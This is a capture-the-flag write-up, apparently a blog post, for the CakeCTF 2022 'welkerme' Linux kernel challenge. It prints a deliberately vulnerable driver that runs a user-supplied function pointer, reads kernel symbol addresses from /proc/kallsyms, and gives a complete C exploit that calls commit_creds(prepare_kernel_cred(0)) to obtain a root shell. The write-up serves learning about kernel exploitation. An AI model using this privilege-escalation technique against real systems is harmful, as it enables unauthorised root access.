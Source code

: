 ```yaml
---
layout: post
readtime: true
tags: [kernel]
---
```

### Attachments : [welkerme.tar.gz](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/welkerme/welkerme_afcc40e7baa18649730945cde6475354.tar.gz) , [compress.sh](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/welkerme/compress.sh)
<br>

First of all, let's have a look on the source code of the driver.
```c
#include <linux/cdev.h>
#include <linux/fs.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/random.h>
#include <linux/slab.h>
#include <linux/uaccess.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("ptr-yudai");
MODULE_DESCRIPTION("welkerme - CakeCTF 2022");

#define DEVICE_NAME "welkerme"
#define CMD_ECHO 0xc0de0001
#define CMD_EXEC 0xc0de0002

static int module_open(struct inode *inode, struct file *filp) {
  printk("'module_open' called\n");
  return 0;
}

static int module_close(struct inode *inode, struct file *filp) {
  printk("'module_close' called\n");
  return 0;
}

static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  long (*code)(void);
  printk("'module_ioctl' called with cmd=0x%08x\n", cmd);

  switch (cmd) {
    case CMD_ECHO:
      printk("CMD_ECHO: arg=0x%016lx\n", arg);
      return arg;

    case CMD_EXEC:
      printk("CMD_EXEC: arg=0x%016lx\n", arg);
      code = (long (*)(void))(arg);
      return code();

    default:
      return -EINVAL;
  }
}

static struct file_operations module_fops = {
  .owner   = THIS_MODULE,
  .open    = module_open,
  .release = module_close,
  .unlocked_ioctl = module_ioctl
};

static dev_t dev_id;
static struct cdev c_dev;

static int __init module_initialize(void)
{
  if (alloc_chrdev_region(&dev_id, 0, 1, DEVICE_NAME))
    return -EBUSY;

  cdev_init(&c_dev, &module_fops);
  c_dev.owner = THIS_MODULE;

  if (cdev_add(&c_dev, dev_id, 1)) {
    unregister_chrdev_region(dev_id, 1);
    return -EBUSY;
  }

  return 0;
}

static void __exit module_cleanup(void)
{
  cdev_del(&c_dev);
  unregister_chrdev_region(dev_id, 1);
}

module_init(module_initialize);
module_exit(module_cleanup);
```

This is the source code of a kernel module. Inserting or loading the module into the kernel creates a device (file) at `/dev/welkerme`. We can interact with the driver using `ioctl`. Calling `ioctl` with the command `CMD_EXEC` i.e `0xc0de0002` would call an arbitrary function pointer supplied by the user as `ioctl` arg. 

```c
case CMD_EXEC:
      printk("CMD_EXEC: arg=0x%016lx\n", arg);
      code = (long (*)(void))(arg);
      return code();
```


Before actually doing something, let's have a look on some core concepts related to privilege escalation.

### task_struct
This is the Process Control Block and stores all the information needed by a process. Every task has a `task_struct` object living in memory. 

```c
struct task_struct {
    volatile long state;            // process state (running, stopped, ...)
    void *stack;                    // task's stack pointer
    int prio;                       // process priority
    struct mm_struct *mm;           // memory address space
    struct files_struct *files;     // open file information
    const struct cred *cred;        // credentials
  // ...
};

struct cred {
    // .
    // .
    // .
    kuid_t  uid;        /* real UID of the task */
    kgid_t  gid;        /* real GID of the task */
    kuid_t  suid;       /* saved UID of the task */
    kgid_t  sgid;       /* saved GID of the task */
    kuid_t  euid;       /* effective UID of the task */
    kgid_t  egid;       /* effective GID of the task */
    // .
    // .
    // .
};
```
The `cred` struct stores information about the owner, capabilities,etc. of a process. Privilege escalation is achieved via changing `current_task->cred->euid` to 0. (Might need to change some other id's depending on situation). The following code will do this for us!
```c
commit_creds(prepare_kernel_cred(0));
```
`prepare_kernel_cred` prepares a set of credentials for a kernel service which is committed by passing its return value as an argument to the function `commit_creds`.

Cool, not let's find out the address of `prepare_kernel_cred` and `commit_creds`. To do this, we need to read `/proc/kallsyms` by booting into the kernel as root. Run `debug.sh`, provided by the author. 
```sh
/ # cat /proc/kallsyms | grep prepare_kernel_cred
ffffffff810726e0 T prepare_kernel_cred

/ # cat /proc/kallsyms | grep commit_creds
ffffffff81072540 T commit_creds
```
Let's write a helper function for calling `commit_creds(prepare_kernel_cred(0))`
```c
void getRoot(){
    void* (*prepare_kernel_cred)(int) = 0xffffffff810726e0;
    void (*commit_creds)(void*) = 0xffffffff81072540;
    commit_creds(prepare_kernel_cred(0));
}
```
After that, we only need to call `ioctl` and supply a pointer to the function `getRoot`

```
ioctl(fd, CMD_EXEC, &getRoot);
system("/bin/sh");
```
Complete exploit:
```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define CMD_ECHO 0xc0de0001
#define CMD_EXEC 0xc0de0002

void getRoot(){
   void* (*prepare_kernel_cred)(int) = (void*)0xffffffff810726e0;
    void (*commit_creds)(void*) = (void*)0xffffffff81072540;
    commit_creds(prepare_kernel_cred(0));
}

int main(void) {
  int fd = open("/dev/welkerme",O_RDWR);
  if(fd==-1){
    perror("open");
    exit(1);
  }

  ioctl(fd, CMD_EXEC, &getRoot);
  system("/bin/sh");
  close(fd);
  return 0;
}

```
Compile, deliver and run this exploit to escalate privileges to the root!
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/welkerme_1.png"/>

### References
<a href="https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/">https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/</a>
